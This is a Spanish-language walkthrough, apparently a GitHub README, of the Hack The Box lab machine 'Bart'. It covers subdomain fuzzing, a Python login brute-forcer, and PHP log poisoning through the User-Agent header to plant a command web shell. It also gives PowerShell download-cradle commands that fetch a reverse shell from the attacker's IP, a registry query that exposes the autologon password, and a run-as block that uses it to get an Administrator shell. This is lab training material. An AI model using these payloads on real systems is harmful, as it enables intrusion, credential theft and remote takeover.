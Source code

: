 # Bart-HTB

## NMAP 

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/2d9d0c51-4e1f-49f5-a613-c08cf759eedf)

Ponermos en el hosts el subdominio "http://forum.bart.htb/"  Si vemos la pagina tiene varios usuarios (moraleja siempre revisa los comentatios html <!-- )

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/1cc0bd8a-0fcd-4f13-bf6e-8a1939bdd22e)



## WFUZZ 

Vamos a enumerar en busca de otros subdominios

```bash
 wfuzz -c -t 200  --hc=302,404 -w /usr/share/seclists/Discovery/DNS/deepmagic.com-prefixes-top50000.txt -H "Host: FUZZ.bart.htb"  http://10.129.96.185/

```

Encontramos un subdominio nuevo "monitor"


![image](https://github.com/gecr07/Bart-HTB/assets/63270579/cc964f92-3d61-49a5-b8a0-419bf0651268)

Si lo revisamos no encontre nada entonces lo que se me ocurre es un ataque de fuerza bruta....

## CEWL

Esto sirve para crear diccionarios en base a las mismas palabras de la pagina.

```bash
cewl -w cewl-forum.txt -e -a http://forum.bart.htb

‐e, ‐‐email
                     Include email addresses.

 ‐a, ‐‐meta
                     Include meta data.


```


### TR Mayusculas a Minusculas

Para cambiar de mayusculas a minuculas

```bash
tr '[:upper:]' '[:lower:]'
```


## Brute Force Alternativa a cosas como Hydra

Esto es una alternativa a hydra para hacer brute force lo que si falta es ponerle hilos para que vaya mas rapido

```python
#!/usr/bin/python3

import requests, pdb, sys, time, re, signal
import urllib3, threading


def def_handler(sig, frame):
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)


signal.signal(signal.SIGINT, def_handler)


url = 'http://monitor.bart.htb/index.php'
burp = { 'http': 'http://127.0.0.1:8080'}



def main():
	#time.sleep(10)
	s=requests.session()
	r = s.get(url)
	#print(r.text)
	csrfToken = re.findall(r'name="csrf" value="(.*?)"',r.text)[0]
	#pdb.set_trace()# l y p para ver valores.


	with open("user.txt", "rb") as users_file:
		usuarios = [linea.decode().strip() for linea in users_file]
	with open("passwords.txt", "rb") as passwords_file:
		contraseñas = [linea.decode().strip() for linea in passwords_file]
		for usuario in usuarios:
			for contraseña in contraseñas:
				#print(f"Probando: Usuario={usuario}, Contraseña={contraseña}")
				post_data = {'csrf': csrfToken,'user_name': usuario,'user_password': contraseña,'action':'Login'}
				r = s.post(url,data=post_data,proxies=burp)
				if "The information is incorrect"  not in r.text:
					print(f"Se encontro una contraseña correcta {usuario}:{contraseña}")
		
		



if __name__ == '__main__':
	main()

```

COn el output de cewl y poniendo todo en minusculas sacamos el password

```
harvey

potter
```

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/e3da1420-e251-40b5-bbf2-b5ced1ed2c9b)

Siemmpre ve si el proyecto es open source en este caso si.

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/5b4852f0-526c-4c36-8e91-61fec50ae625)


Pues yo no hubiera podido ver esto solo pero si intentamos registranos de acuerdo al codigo.

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/371da5fe-0627-4863-9074-ccb5c9ae1516)

```
curl -X POST http://internal-01.bart.htb/simple_chat/register.php -d "uname=masa&password=masa1234"
```

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/aa59b77e-66eb-4861-b411-2756aabec176)

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/3ac269b9-79e1-40b5-8f32-24b3c626d805)


Si vemos el codigo vemos algo raro

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/218edb21-ee54-4ac2-bdc8-e627b8089bd8)

Nos encontramos que esa pagina esta como capturando el user agent. Y aparte permite que creemoes un arhivo con lo cual se podria

```
http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey

```

### RCE (log poisoning)

Pues se puede hacer de varias maneras pero esta es con python y requests

```
import requests
proxies={'http':'http://127.0.0.1:8080'}
headers={'User-Agent':'MASA: <?php system($_GET['cmd']); ?>'}
r = requests.get('http://internal-01.bart.htb/log/log.php?filename=log1.php&username=harvey', proxies=proxies, headers=headers)

```

Ya sabes log1.php?cmd=descarga tu shell powershell nigsha...

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/61bd98bd-74ba-4d75-bd86-e6b16b4da29b)

Siempre es importante pasarse a la arquitecura de 64 por lo que la manera mas facil por lo menos que yo he visto es nc64.exe. 



### Reverse shell de 32 a 64

Lo que note cuando hice esta pagina es que el proceso donde se obtiene la shell es de 32 por lo que lo mejor es pasarlo a 64 logre esto  llamando al powershell desde la ruta de 32 a 64..

```
http://internal-01.bart.htb/log/log1.php?cmd=C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe%20iex(new-object%20net.webclient).downloadstring(%27http://10.10.14.12/Invoke-PowerShellTcp.ps1%27)

C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe iex(new-object net.webclient).downloadstring('http://10.10.14.12/Invoke-PowerShellTcp.ps1')
```

## Auto logon WinLogon 

Puedes checar si estan confuguradas algunas credenciales para autologon 

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/a36742ef-4d95-4ef8-aa49-c716e0dc10d7)


```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

   LastUsedUsername    REG_SZ    Administrator
    DefaultPassword    REG_SZ    3130438f31186fbaf962f407711faddb


```

### Powershell “run as”

Que quiere decir correr como eso quiere decir que lo vas a correr en la maquina victima vas a correr un comando como otro usuario en el caso de la maquina bart pues como Administrator ya que tenemos el password:

```
$username = "BART\Administrator"
$password = "3130438f31186fbaf962f407711faddb"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
Invoke-Command -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://10.10.14.12/Invoke-PowerShellTcp.ps1') } -Credential $cred -Computer localhost

```







































